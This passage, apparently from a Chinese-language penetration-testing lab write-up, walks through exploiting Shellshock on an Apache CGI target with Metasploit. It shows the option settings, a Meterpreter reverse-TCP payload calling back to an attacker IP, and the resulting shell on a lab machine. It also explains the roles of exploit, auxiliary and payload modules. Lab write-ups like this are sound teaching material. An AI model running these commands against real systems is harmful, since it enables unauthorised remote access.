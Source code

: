 我們需要設定以下這幾個options
* **lhost** 攻擊者ip
* **rhost** 目標主機ip
* **payload** 攻擊成功後要做的動作
* **targeturi** 目標的漏洞網頁

```shell
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lhost 192.168.20.134
lhost => 192.168.20.134
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhost 192.168.20.131
rhost => 192.168.20.131
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi http://192.168.20.131/cgi-bin/status
targeturi => http://192.168.20.131/cgi-bin/status

```
至此，攻擊的準備工作完成了

*題外話*

常常我們都把**exploit**、**auxiliary**、**payload**搞混

講師用了一個講法我覺得很容易懂，分享一下
|           |  |
| ----------| --- |
| exploit   | 槍 |
| auxiliary | 輔助工具 |
| payload   | 子彈 |
子彈(payload)無法主動攻擊，需要有槍(exploit)的輔助才行
子彈(payload)可以理解攻擊進入後目標電腦，我們要幹什麼壞事或提權
而槍(exploit)可以自己進行攻擊，例如用~~槍托打人~~
輔助工具(auxiliary)也可以，例如槍掛榴彈

##### (4) **攻擊**
在攻擊前，我們也可以開始啟用相關的監測軟體，基本上是把你想到的都打開看看
我這邊想到的是，可以透過Wireshark抓取之間的封包
完成了之後，可以輸入run指令開始攻擊

<pre><u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/http/apache_mod_cgi_bash_env_exec</b></font>) &gt; run

<font color="#277FFF"><b>[*]</b></font> Started reverse TCP handler on 192.168.20.134:4444 
<font color="#277FFF"><b>[*]</b></font> Command Stager progress - 100.46% done (1097/1092 bytes)
<font color="#277FFF"><b>[*]</b></font> Sending stage (984904 bytes) to 192.168.20.131
<font color="#277FFF"><b>[*]</b></font> Meterpreter session 1 opened (192.168.20.134:4444 -&gt; 192.168.20.131:56191) at 2021-12-05 16:36:00 +0800

<u style="text-decoration-style:single">meterpreter</u> &gt; 
</pre>
至此，攻擊成功
我們可輸入``shell``變成指令介面
便可開始操作目標電腦
```shell
meterpreter > shell
Process 950 created.
Channel 1 created.
whoami
pentesterlab
who
pentesterlab    tty1            00:04   Dec  5 14:19:43  
```

---